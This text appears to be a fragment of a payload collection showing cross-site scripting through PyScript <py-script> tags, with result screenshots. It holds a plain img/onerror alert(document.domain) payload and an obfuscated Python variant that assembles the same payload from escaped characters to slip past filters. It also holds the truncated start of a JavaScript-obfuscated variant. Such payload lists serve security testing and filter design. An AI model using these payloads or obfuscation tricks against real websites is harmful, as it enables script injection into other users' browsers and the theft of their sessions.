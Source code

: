 ```
Code:

```python
<py-script>
        print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png|]]

### Cross Site Scripting (Python Obfuscated)

Code:

```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png|]]

### Cross Site Scripting (JavaScript Obfuscation)

Code:

```html
<py-script>
  prinht(""
  <script>
    var _0x3675bf = _0x5cf5
    function _0x5cf5(_0xced4e9, _0x1ae724) {
      var _0x599cad = _0x599c()
      return (
        (_0x5cf5 = function (_0x5cf5d2, _0x6f919d) {
          _0x5cf5d2 = _0x5cf5d2 - 0x94
          var _0x14caa7 = _0x599cad[_0x5cf5d2]
          return _0x14caa7
        }),
        _0x5cf5(_0xced4e9, _0x1ae724)
      )
    }
    ;(function (_0x5ad362, _0x98a567) {
      var _0x459bc5 = _0x5cf5,
        _0x454121 = _0x5ad362()
      while (!![]) {
        try {
          var _0x168170 =
            (-parseInt(_0x459bc5(0x9e)) / 0x1) *
              (parseInt(_0x459bc5(0x95)) / 0x2) +
            (parseInt(_0x459bc5(0x97)) / 0x3) *
              (-parseInt(_0x459bc5(0x9c)) / 0x4) +
```